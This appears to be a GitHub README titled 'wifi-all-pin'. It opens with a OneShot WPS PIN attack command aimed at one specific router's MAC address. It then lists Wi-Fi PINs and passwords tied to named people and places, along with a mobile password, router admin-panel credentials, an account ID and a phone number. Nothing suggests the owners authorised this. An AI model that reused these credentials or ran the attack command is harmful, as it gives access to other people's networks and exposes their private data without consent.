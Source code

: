 # wifi-all-pin

 sudo python OneShot/oneshot.py -i wlan0 -b 48:22:54:14:A0:C9 -p 49937305

jakir wifi:- 85239999

jamal wifi= 91978035

Rubrl wifi:- 21595684

jiban:- 68642419

sumaiya Home:- 21660436

sadik wifi= 70367157

SK arman bazar wifi:- 17985123

Renu kaka:- 30712881

sumaiya মোবাইল পাসওয়ার্ট:- 637267

Ranu wifi admin penel:- 76449163
## Renu wifi 
user:- ts-net1026
password:- 12345

admin penel pass:- 76449163

## Renu Orbit bile

SID510679


01794261791
